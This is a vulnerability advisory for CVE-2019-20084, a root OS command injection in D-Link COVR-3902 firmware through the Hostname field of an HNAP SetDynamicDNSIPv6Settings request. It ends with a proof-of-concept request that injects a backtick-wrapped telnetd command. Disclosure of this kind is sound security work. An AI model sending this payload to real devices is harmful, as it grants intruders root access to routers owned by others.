


# D-Link SetDynamicDNSIPv6Settings HNAP OS Command Injection vulnerability

**Exploit Author**: pr0v3rbs@kaist.ac.kr

**Vender**: D-Link

## CVE-2019-20084

**Firmware version**:
COVR-3902-US - 1.01B5

### The detail of vulnerability ###

When adding a record in the DynamisDNS.html page, the `Hostname` element is transferred through the `SetDynamicDNSIPv6Settings` HNAP request format which looks like the below XML.

```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetDynamicDNSIPv6Settings>
            <DynamicDNSIPv6List>
                <DDNSIPv6Info>
                    <Status></Status>
                    <IPv6Address></IPv6Address>
                    <Hostname></Hostname>
                </DDNSIPv6Info>
            </DynamicDNSIPv6List>
        </SetDynamicDNSIPv6Settings>
    </soap:Body>
</soap:Envelope>
```

The server runs `SetDynamicDNSIPv6Settings.php` page to parse the `Hostname` element and the element is parsed without any sanity check. Then, the parsed `Hostname` element is stored in the `/ddns6/entry:".$InDeX."/hostname` local php variable.



The saved `Hostname` element is loaded in the `ddnsserver.php` page through the `ddns6setup` function of the `DDNS6.WAN-1.php` page from the server and the element is saved as a parameter of the `susockc` command in a shell script.



At this point, the crafted shell script with a malformed parameter such as back-quote(`) is executed. Therefore, an attacker can execute any command by using the OS command injection with root privilege.

### PoC XML structure

```
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema"
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetDynamicDNSIPv6Settings>
            <DynamicDNSIPv6List>
                <DDNSIPv6Info>
                    <Status>Enabled</Status>
                    <IPv6Address>2001::1</IPv6Address>
                    <Hostname>`telnetd`</Hostname>
                </DDNSIPv6Info>
            </DynamicDNSIPv6List>
        </SetDynamicDNSIPv6Settings>
    </soap:Body>
</soap:Envelope>
```
